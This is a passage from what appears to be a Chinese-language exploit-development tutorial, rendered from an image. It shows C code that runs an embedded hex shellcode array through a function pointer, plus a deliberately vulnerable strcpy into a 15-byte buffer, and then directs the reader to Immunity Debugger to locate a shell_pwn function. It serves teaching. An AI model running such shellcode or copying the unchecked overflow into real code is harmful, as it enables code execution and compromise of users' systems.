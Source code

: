 ```
"\xa6\xf0\x4a\xe8\x59\xfb\xaa\x21\x9e\xaf\xfa\x59\x37\xd0\x90"
"\x99\xb8\x05\x0c\x91\x1f\xf6\x33\x5c\xdf\xa6\xf3\xce\x88\xac"
"\xfb\x31\xa8\xce\xd1\x5a\x41\x33\xda\x75\xce\xba\x3c\x1f\xfe"
"\xea\x97\xb7\x3c\xc9\x2f\x20\x3e\x3b\x18\xc6\x77\x2d\x9f\xe9"
"\x87\x7b\xb7\x7d\x0c\x68\x03\x9c\x13\xa5\x23\xc9\x84\x33\xa2"
"\xb8\x35\x43\xef\x2a\xd5\xd6\x74\xaa\x90\xca\x22\xfd\xf5\x3d"
"\x3b\x6b\xe8\x64\x95\x89\xf1\xf1\xde\x09\x2e\xc2\xe1\x90\xa3"
"\x7e\xc6\x82\x7d\x7e\x42\xf6\xd1\x29\x1c\xa0\x97\x83\xee\x1a"
"\x4e\x7f\xb9\xca\x17\xb3\x7a\x8c\x17\x9e\x0c\x70\xa9\x77\x49"
"\x8f\x06\x10\x5d\xe8\x7a\x80\xa2\x23\x3f\xb0\xe8\x69\x16\x59"
"\xb5\xf8\x2a\x04\x46\xd7\x69\x31\xc5\xdd\x11\xc6\xd5\x94\x14"
"\x82\x51\x45\x65\x9b\x37\x69\xda\x9c\x1d";

    printf("Shellcode Length: %d\n", (int)strlen(code));
    int (*ret)() = (int(*)())code;
    ret();
}

int copytobuffer(char* input)
{
    char buffer[15];
    strcpy (buffer,input);
    return 0;
}

void main (int argc, char *argv[])
{
    int local_variable = 1;
    copytobuffer(argv[1]);
    exit(0);
}
```

现在，构建它，并让我们在 Immunity Debugger 中运行它，以找到`shell_pwn`函数的地址。以管理员身份启动 Immunity Debugger，并选择我们带有任何参数的新代码：

![](img/00274.jpeg)
